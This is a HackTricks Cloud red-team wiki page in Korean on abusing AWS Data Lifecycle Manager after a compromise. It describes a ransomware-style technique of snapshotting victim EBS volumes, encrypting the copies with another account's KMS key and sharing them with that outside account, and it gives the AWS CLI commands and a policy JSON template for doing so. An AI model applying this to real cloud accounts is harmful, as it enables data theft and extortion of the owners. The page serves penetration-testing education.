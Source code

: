 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 데이터 라이프사이클 관리자 (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

랜섬웨어 공격은 가능한 많은 EBS 볼륨을 암호화한 다음 현재 EC2 인스턴스, EBS 볼륨 및 스냅샷을 삭제하여 실행될 수 있습니다. 이러한 악의적인 활동을 자동화하기 위해 Amazon DLM을 사용하여 다른 AWS 계정의 KMS 키로 스냅샷을 암호화하고 암호화된 스냅샷을 다른 계정으로 전송할 수 있습니다. 또는 암호화 없이 스냅샷을 관리하는 계정으로 전송한 다음 그곳에서 암호화할 수 있습니다. 기존 EBS 볼륨이나 스냅샷을 직접 암호화하는 것은 간단하지 않지만, 새 볼륨이나 스냅샷을 생성하여 그렇게 할 수 있습니다.

먼저, 인스턴스 ID, 볼륨 ID, 암호화 상태, 연결 상태 및 볼륨 유형과 같은 볼륨에 대한 정보를 수집하는 명령을 사용할 것입니다.

`aws ec2 describe-volumes`

둘째, 라이프사이클 정책을 생성할 것입니다. 이 명령은 DLM API를 사용하여 지정된 시간에 지정된 볼륨의 일일 스냅샷을 자동으로 생성하는 라이프사이클 정책을 설정합니다. 또한 스냅샷에 특정 태그를 적용하고 볼륨에서 스냅샷으로 태그를 복사합니다. policyDetails.json 파일에는 대상 태그, 일정, 암호화를 위한 선택적 KMS 키의 ARN, 스냅샷 공유를 위한 대상 계정과 같은 라이프사이클 정책의 세부정보가 포함되어 있으며, 이는 피해자의 CloudTrail 로그에 기록됩니다.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
정책 문서의 템플릿은 여기에서 볼 수 있습니다:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
